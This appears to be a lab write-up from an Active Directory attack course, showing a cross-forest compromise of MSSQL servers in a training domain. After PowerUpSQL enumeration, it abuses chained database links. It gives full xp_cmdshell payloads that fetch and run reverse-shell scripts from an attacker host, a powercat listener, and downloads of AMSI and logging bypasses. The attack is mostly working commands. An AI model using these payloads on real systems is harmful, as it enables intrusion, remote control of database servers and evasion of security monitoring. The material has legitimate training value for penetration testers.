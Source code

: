 # Hands-on 26: Cross Forest Attacks - MSSQL Servers

- [Hands-on 26: Cross Forest Attacks - MSSQL Servers](#hands-on-26-cross-forest-attacks---mssql-servers)
  - [Tasks](#tasks)
  - [Enumeration](#enumeration)
  - [RCE on DB-SQLSRV](#rce-on-db-sqlsrv)

---

## Tasks

Get a reverse shell on a `db-sqlsrv` in `db.local` forest by abusing database links from `us-mssql`.

<br/>

---

## Enumeration

Import `PowerUpSQL.ps1` using InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\PowerUpSQL-master\PowerUpSQL.ps1
```

![picture 17](images/364cb35bfb53920774829881908b441c299842f4cf0a9e9e9a38c7d1cf582a01.png)  


<br/>

Then enumerate MSSQL instances:

```
Get-SQLInstanceDomain
```

![picture 18](images/5f5c7e96032310285767e197619a57c808928f5e337bfa5484224df16f8b4746.png)  

- MSSQL instance: `us-mssql.us.techcorp.local`

<br/>

Then check if we can access `us-mssql`:

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

![picture 19](images/9e3da9bc565682f677bf58504a3c0f368c7929dad00018d4dbd07a3ea629518e.png)  

- The current user can access `us-mssql`

<br/>

Enumerate more information about the MSSQL service:

```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

![picture 20](images/bc42ceedc2ceab48f82c893e6e117ac0365860984aa579e3aba310271622081e.png)  

<br/>

Look for Database Link of `us-mssql`:

```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

![picture 21](images/62bf01de915a85ce9a03bd798126f4f9f7b99b9449e1852595939f17c3c8c3c4.png)  

- `us-mssql` has remote link on `192.168.23.25`

<br/>

Try to crawl the database link:

```
Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local
```

![picture 22](images/9c76386ec464029d01ba5a9b6f3c976335f11dcd2d4b163261cc7085426142ac.png)  

- We can execute command on `db-sqlsrv` from US-MSSQL -> 192.168.23.25 -> DB-SQLSRV

<br/>


## RCE on DB-SQLSRV

Locally serve tools:

```
cd C:\AD\Tools; python -m SimpleHTTPServer 80
```

Launch a powercat listener:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\powercat.ps1; powercat -l -v -p 443 -t 1000
```

<br/>

Use **heidisql.exe** to connect to `us-mssql`:

![picture 23](images/cfe22e441fed78154d6daffc58bc63975d70721b67d6b6465c3c4bdbc1a49b8c.png)  

```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.64/Invoke-PowerShellTcpEx.ps1'''')"'')');
```

```
select * from openquery("192.168.23.25",'select * from openquery("dbsqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.64/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.64/amsibypass.txt);iex (iwr UseBasicParsing http://192.168.100.64/Invoke-PowerShellTcp.ps1)"'''''')');
```